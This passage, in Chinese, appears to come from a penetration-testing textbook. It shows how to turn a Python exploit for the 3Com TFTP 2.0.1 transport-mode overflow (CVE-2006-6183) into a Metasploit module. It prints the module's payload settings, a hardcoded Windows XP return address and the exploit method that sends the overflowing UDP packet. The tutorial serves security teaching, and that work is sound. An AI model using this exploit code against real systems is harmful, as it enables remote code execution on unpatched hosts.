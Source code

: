 ```
      'References'     => ❷
        [
          ['CVE', '2006-6183'],
          ['OSVDB', '30759'],
          ['BID', '21301'],
          ['URL', 'http://www.security.org.sg/vuln/tftp2000-1001.html'],
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 473, ❸
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
         ['Windows XP Pro SP3 English', { 'Ret' => 0x7E45AE4E } ], #JMP ESI  USER32.dll ❹
        ],
      'Privileged'     => true,
      'DefaultTarget'  => 0, ❺
      'DisclosureDate' => 'Nov 27 2006'))

    register_options(
      [
        Opt::RPORT(69)
      ], self.class)

  end
```

由于这是一个保存返回指针覆盖漏洞，我们不需要导入 SEH Metasploit 混合模块；只需导入 *Msf::Exploit::Remote::Udp* ❶。接下来，我们更改模块的信息，以匹配 3Com TFTP 2.0.1 长传输模式漏洞，以便 Metasploit 用户能够搜索到我们的模块并验证他们是否拥有正确的漏洞利用代码。在线搜索漏洞参考信息，找到 CVE、OSVDB 和 BID 编号，以及其他相关链接 ❷。

接下来，我们更改负载选项，以匹配我们的 3Com 漏洞利用代码。在我们的 Python 漏洞利用代码中，我们先是 344 字节的 shellcode，后跟 129 字节的填充，总共 473 字节的负载。告诉 Metasploit 在 ❸ 创建一个 473 字节的负载。对于目标部分，我们的 Python 漏洞利用代码只覆盖一个平台——Windows XP Professional SP3 英文版。如果我们将漏洞提交到 Metasploit 仓库，应该尽量覆盖更多可以利用的目标。

最后，将 `RET` 更改为 Python 漏洞利用代码中的 *USER32.dll* ❹ 中的 `JMP ESI`。我们还添加了 `DefaultTarget` 选项，告诉 Metasploit 默认使用目标 0，这样用户在运行模块之前就不需要设置目标 ❺。

我们在模块的利用部分唯一需要修改的是利用字符串本身，正如示例 19-11 中所示。

示例 19-11. 修改后的模块，第二部分

```
def exploit
    connect_udp

    print_status("Trying target #{target.name}...")

    sploit  = "\x00\x02"❶ + rand_text_english(7, payload_badchars)❷ + "\x00"❸
    sploit += payload.encoded❹  + [target.ret].pack('V')❺ +  "\x00"❻

    udp_sock.put(sploit)

    handler
    disconnect_udp
  end
end ❼
```
